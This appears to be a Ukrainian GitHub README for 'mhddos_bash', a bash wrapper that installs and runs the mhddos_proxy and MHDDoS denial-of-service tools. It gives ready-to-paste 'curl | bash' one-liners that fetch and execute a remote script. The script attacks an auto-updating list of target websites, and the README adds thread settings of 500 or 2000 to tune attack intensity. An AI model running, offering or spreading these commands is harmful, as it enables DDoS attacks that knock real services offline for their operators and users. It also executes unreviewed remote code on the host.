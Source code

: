 ## 🪖 Bash(Linux-термінал/WSL2)  

## ❕Опис

### mhddos_bash - скрипт на bash, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

* Запускається однією командою в Linux і WSL2 (Windows Subsystem for Linux). Подальше втручання від користувача не обов'язкове. 
 
```
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/bash/auto_bash.sh | bash
```
* Автоматично встановлює git, python3, pip, mhddos_proxy, MHDDoS, розширений список proxy і всі залежності.

* Праюцює із базою сайтів [Українського женця](https://github.com/Aruiem234/auto_mhddos/blob/main/runner_targets).

* База цілей оновлюється кожні 20 хвилин.

* Під час запуску завжди перевіряє і завантажує оновлення mhddos_proxy і MHDDoS.

Рекомендовано використовувати на Ubuntu 20.04. Але повинно працювати на всіх Ubuntu та Debian похідних, а також у WSL2.

Для зупинки скрипта кілька разів натисніть CTRL+C, або закрийте вікно з терміналом.

## ❕Зміна інтенсивності

Якщо скрипт дуже уповільнює ПК, або навпаки ви маєте невикористані ресурси, можна понизити, або навпаки підвищіти інтенсивність роботи скрипта. Для цього треба керувати параметром `threads`. По замовчуванню `threads = 1000`.

Щоб знизити навантаження на систему, спробуйте використати `threads = 500`

```
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/bash/auto_bash.sh | bash -s -- 500
```

Щоб навантажити систему більше, спробуйте використати `threads = 2000`

```
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/bash/auto_bash.sh | bash -s -- 2000
```
